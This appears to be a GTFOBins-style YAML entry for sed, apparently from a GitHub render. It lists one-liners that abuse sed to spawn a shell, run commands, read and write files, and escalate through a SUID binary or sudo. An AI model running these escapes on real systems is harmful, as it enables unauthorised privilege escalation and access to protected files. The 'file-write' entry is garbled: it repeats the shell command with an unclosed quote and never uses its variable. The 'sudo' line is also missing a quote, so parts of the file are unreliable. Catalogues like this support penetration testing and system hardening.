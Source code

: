 ```yaml
---
functions:
  shell:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n '1e exec sh 1>&0' /etc/hosts
  command:
    - description: GNU version only.
      code: sed -n "1e id" /etc/hosts
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n '1e exec sh 1>&0 /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  sudo:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n '1e exec sh 1>&0 /etc/hosts
---
```

